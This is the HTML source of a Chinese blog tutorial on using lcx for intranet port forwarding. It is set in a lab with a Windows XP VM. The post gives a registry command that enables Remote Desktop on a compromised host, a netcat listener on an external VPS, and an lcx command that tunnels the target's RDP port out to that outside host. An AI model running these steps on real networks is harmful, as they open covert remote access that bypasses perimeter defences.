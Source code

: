       .post a {
        color: #28A1C5;
      }
    </style>
  </head>
  <body>
    <div class="container">
      <div class="post">
        <h1 class="title">lcx内网端口转发</h1>
        <div class="show-content">
          <p>参考：<a href="http://wooyun.jozxing.cc/static/drops/tools-15000.html" target="_blank">内网转发</a></p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-d029c7f3104a0a70.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-d029c7f3104a0a70.PNG?imageMogr2/auto-orient/strip" data-image-slug="d029c7f3104a0a70" data-width="616" data-height="522"><br><div class="image-caption"></div>
</div><p>lcx的使用：当拿到一个处于内网主机的管理员权限，打开它的3389端口，映射到外网某公网IP的地址上。</p><p>这样，我们操作外网机子，就相当于操作内网主机，很方便。</p><hr><p>试验下：windowsxp 假设它是内网主机（使用host-only模式），它没有公网IP，它的内网IP是 192.168.57.129（网关192.168.60.100）</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-9deeb98499fd4fd6.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-9deeb98499fd4fd6.PNG?imageMogr2/auto-orient/strip" data-image-slug="9deeb98499fd4fd6" data-width="561" data-height="230"><br><div class="image-caption"></div>
</div><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-4c442de2034eeb77.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-4c442de2034eeb77.PNG?imageMogr2/auto-orient/strip" data-image-slug="4c442de2034eeb77" data-width="571" data-height="280"><br><div class="image-caption">网络拓扑图<br>
</div>
</div><p>内网主机开启3389端口：</p><p>REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f</p><hr><p>查看VPS（是购买的国外的服务器）可以用来监听的端口，选择一个<b>没有使用的</b>端口，比如9977。</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-42c125389fdf5a6f.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-42c125389fdf5a6f.PNG?imageMogr2/auto-orient/strip" data-image-slug="42c125389fdf5a6f" data-width="998" data-height="634"><br><div class="image-caption"></div>
</div><p>外网主机，安装netcat</p><p>apt-get -y install nc</p><p>nc -l -p 9977 （在9977端口监听）</p><hr><p>在内网主机上，命令“lcx.exe -slave 104.xx.xx.xx 9977 192.168.60.130 3389 ”</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-eb54986181dceea0.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-eb54986181dceea0.PNG?imageMogr2/auto-orient/strip" data-image-slug="eb54986181dceea0" data-width="680" data-height="182"><br><div class="image-caption"></div>
</div><p>乱码是因为winxp是英文版系统，所以中文就乱码了。make a connection…… 说明连接成功了。</p><hr><p><br></p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-a3c6c4afa0a7daf0.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-a3c6c4afa0a7daf0.PNG?imageMogr2/auto-orient/strip" data-image-slug="a3c6c4afa0a7daf0" data-width="668" data-height="246"><br><div class="image-caption">、</div>
</div><h1>总结：</h1><p>lcx.exe -lister 外网端口 内网端口           （在本地主机执行，用nc监听端口也可以）</p><p>lcx.exe -slave 104.xx.xx.xx 9977 192.168.60.130 3389   （在目标主机上执行，转发端口）</p>
        </div>
      </div>
    </div>
  </body>
</html>
